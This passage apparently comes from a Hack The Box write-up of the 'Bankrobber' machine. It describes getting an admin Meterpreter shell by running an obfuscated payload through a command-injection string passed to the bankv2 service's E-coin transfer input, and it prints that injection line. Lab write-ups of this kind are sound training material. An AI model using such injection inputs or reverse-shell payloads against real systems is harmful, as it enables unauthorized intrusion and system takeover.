 ## Exploiting bankv2
To exploit bankv2 in order to get a Meterpreter shell as admin, I created another obfuscated payload for port 4466, copied it to C:\Users\Cortin\Desktop\test (where i copied the previous payload.exe file) using the initial reverse shell, I started another Meterpreter listener for port 4466.

![meterpreter2](/assets/images/HTB/Bankrobber/meterpreter2.jpg)

And then executed the payload2.exe file by passing the following input to bankv2's E-coin transfer:
```
& ..\\..\\..\\..\\..\\..\Users\\C:\Users\Cortin\Desktop\test\payload2.exe
```

![bankv2exploitcall](/assets/images/HTB/Bankrobber/bankv2exploitcall.jpg)

And got a Meterpreter shell with admin privileges.
![adminmeterpreter](/assets/images/HTB/Bankrobber/adminmeterpreter.jpg)

Which I then used to get the root flag.

![rootflag](/assets/images/HTB/Bankrobber/rootflag.jpg)

And that's pretty much it.

